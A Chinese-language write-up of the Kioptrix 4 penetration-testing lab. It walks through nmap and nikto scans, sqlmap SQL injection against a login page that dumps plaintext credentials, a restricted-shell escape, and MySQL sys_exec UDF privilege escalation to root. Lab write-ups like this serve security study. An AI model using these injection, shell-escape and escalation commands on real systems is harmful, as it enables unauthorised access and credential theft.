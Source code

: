 # Kioptrix4通关笔记

`---从入门到入土`

## 安装完毕之后的第一步

开机后我们发现 这个用户名和密码是要我们爆破的
![](img/1.png)

在虚拟机中要先接入到和kali一个网段中。
然后我们要知道这个虚拟机的ip地址<br>

就要用到端口扫描。

---

## nmap的使用

```
 nmap -sP IP地址 /子网
 ```

 列：
 ```
 nmap -sP 192.168.17.0 /24
 ```
![](img/2.png)
可以发现网段中一共有4个ip地址，除去本机和kali剩下的就是`K4`的ip地址

## 扫描k4的所有开放端口

```
nmap IP
```
列：
```
nmap 192.168.17.130
```
![](img/3.png)
>从图中我们可以发现，打开了 80端口，我们就可以试试看上这个网址。

![](img/4.png)
__发现还挺憨憨的。__

这应该就是我们的注入页面了，尝试了盲注，跑sqlmap后我选择扫描一下这个网页有没有其他注入漏洞。



我们先查看一下网页的源代码：
![](img/5.png)
这里有可能存在post注入！尝试一下 
查看报错代码
使用`nikto`工具扫描
```
nikto -h http://192.168.17.130
```
列：
![](img/6.png)

![](img/7.png)

发现返回值中有post注入的可能！<br>
sqlmap跑一跑

## 神奇的sql注入！

代码：

```
sqlmap -u http://192.168.17.130/checklogin.php
--data="myusername=admin&mypassword=123&Submit=Login" -p mypassword --dump -T members -D members
```
![](img/8.png)

在选错一堆选项还查了不少字典之后终于跑出来了！

![](img/9.png)

```
 id | username | password              |
+----+----------+-----------------------+
| 1  | john     | MyNameIsJohn          |
| 2  | robert   | ADGAdsafdfwt4gadfga== |
```

## 尝试登陆

在K4中输入用户名和密码登陆进去看看有啥

![](img/10.png)
顺手查看一下权限和配置文件
这里用了echo命令获取py的shell,积累下来
```
echo   os.system("/bin/bash")
whoami 
ifconfig

```

![](img/11.png)

我们的目标是查看服务器下的文件。寻找我们注入的页面，说不定有结果哦！
```
cd /var/www/
cat cat checklogin.php
```
![](img/12.png)

里面有个ROOT用户名 ！！让我康康！！


我们进入这个ROOT用户

```
mysql -u root -p
```
![](img/13.png)

发现过于凄惨 
![](img/14.png)

权限连cd都没有
打扰了！

那就只能被迫给他提个权了<br>
发现root下面有个文件<br>
我们打开它试试看！
![](img/15.png)
我们还是没有root权限  whoami看看


在mysql中输入
```
use mysql

create function sys_exec returns integer soname 'lib_mysqludf_sys.so';

select sys_exec('id > /tmp/out; chown john.john /tmp/out');

```
![](img/16.png)



百度搜索 `mysql给用户提权`

```

use musql

select sys_exec('usermod -a -G admin ')
select sys_exec('usermod -a -G admin john');
```
![](img/17.png)
![](img/18.png)


在我们推出去后，尝试登陆到root
![](img/19.png)
询问权限后确认获取`root`